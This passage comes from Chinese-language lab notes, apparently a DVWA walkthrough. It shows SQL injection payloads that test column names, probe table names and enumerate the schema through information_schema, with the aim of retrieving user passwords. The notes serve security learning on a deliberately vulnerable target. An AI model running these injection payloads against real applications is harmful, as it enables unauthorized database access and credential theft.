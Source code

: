 意味著 SQL 會在前後補上 single quote，因此在第一個 id 後面補上 `'` ，這樣就可以接著第二組的 OR，第 2 組的條件結尾故意不加上 `'` ，這樣就形成合法的 query 了

```bash
2' OR 1='1 union select * from users;
```

## 取得密碼

### 測試 column names

```bash
2' OR user_id='1
```

```bash
# X
1' AND sur_name='admin 
```

```bash
# first_name column ok
1' AND first_name='admin 
```

```bash
# last_name column ok
1' AND last_name='admin
```

```bash
# password column ok
1' AND password<>'0
```

### 測試 table name

```bash
2' UNION SELECT user_id,user_id FROM user WHERE user_id='1
```

```bash
Table 'dvwa.user' doesn't exist
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2070.png)

### show more about tables by query information_schema

```sql
SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
```
